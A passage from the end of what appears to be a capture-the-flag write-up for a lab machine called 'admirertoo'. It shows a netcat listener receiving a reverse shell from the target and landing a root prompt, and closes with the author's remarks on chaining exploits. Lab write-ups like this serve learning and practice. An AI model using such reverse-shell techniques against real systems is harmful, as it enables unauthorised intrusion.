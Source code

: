 Let the hydra rip!! After just a few seconds of it in action, we get our sweet victory:
```
thehated@TRYHARDER:/dev/shm/phpggc$ nc -lnvp 9999  
Ncat: Version 7.80 ( https://nmap.org/ncat )  
Ncat: Listening on :::9999  
Ncat: Listening on 0.0.0.0:9999  
Ncat: Connection from 10.10.11.137.  
Ncat: Connection from 10.10.11.137:35514.  
bash: cannot set terminal process group (10871): Inappropriate ioctl for device  
bash: no job control in this shell  
root@admirertoo:/#
```

The cacophany of exploits and catches to achieve it wasn't easy, but we still persevered right through. It's all about chaining those exploits together. We ball!